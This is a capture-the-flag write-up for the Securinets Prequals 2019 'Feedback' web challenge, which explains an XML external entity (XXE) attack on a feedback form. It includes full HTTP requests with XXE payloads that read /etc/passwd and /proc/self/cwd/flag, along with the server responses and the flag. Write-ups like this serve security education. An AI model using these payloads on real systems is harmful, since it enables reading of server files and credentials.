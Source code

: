 # Securinets Prequals CTF 2019 – Feedback

* **Category:** Web
* **Points:** 731

## Challenge

> I created this website to get your feedback on our CTF.
>
> Can you check if it's secure ?
>
> https://web2.ctfsecurinets.com/
>
> Author:Tr'GFx

## Solution

The website contains a feedback form. Analyzing the source code, you will discover that feedback is sent via XML messages composed by JavaScript.

```javascript
<script type="text/javascript">
function func(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<feedback>' +
        '<author>' + $('input[name="name"]').val() + '</author>' +
        '<email>' + $('input[name="email"]').val() + '</email>' +
        '<content>' + $('input[name="feedback"]').val() + '</content>' +
        '</feedback>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('Message').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","feed.php",true);
    xmlhttp.send(xml);
};
</script>
```

The server answers with a thanks message, inserting the author of the feedback in it.

The application is vulnerable to XXE and the `author` field can be used to return the output of the attack.

```
POST /feed.php HTTP/1.1
Host: web2.ctfsecurinets.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://web2.ctfsecurinets.com/
Content-Type: text/plain;charset=UTF-8
Content-Length: 206
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><feedback><author>&xxe;</author><email>lol</email><content>undefined</content></feedback>

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Sat, 23 Mar 2019 18:49:15 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 1114

<h4>Thanks For you Feedback root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
simple_user:x:1000:1000::/home/simple_user:/bin/bash
Debian-exim:x:102:102::/var/spool/exim4:/bin/false
</h4>
```

The remote code execution can't be performed.

So, you have to find the current working directory in order to find the flag file. You can abuse `/proc/self/` directory that contains the reference to current working directory: `cwd/`.

Hence the malicious payload is the following.

```
POST /feed.php HTTP/1.1
Host: web2.ctfsecurinets.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://web2.ctfsecurinets.com/
Content-Type: text/plain;charset=UTF-8
Content-Length: 214
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag" >]><feedback><author>&xxe;</author><email>lol</email><content>undefined</content></feedback>

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Sat, 23 Mar 2019 21:27:34 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 67

<h4>Thanks For you Feedback Securinets{Xxe_xXE_@Ll_Th3_W@Y}
</h4>
```

So the flag is the following.

```
Securinets{Xxe_xXE_@Ll_Th3_W@Y}
```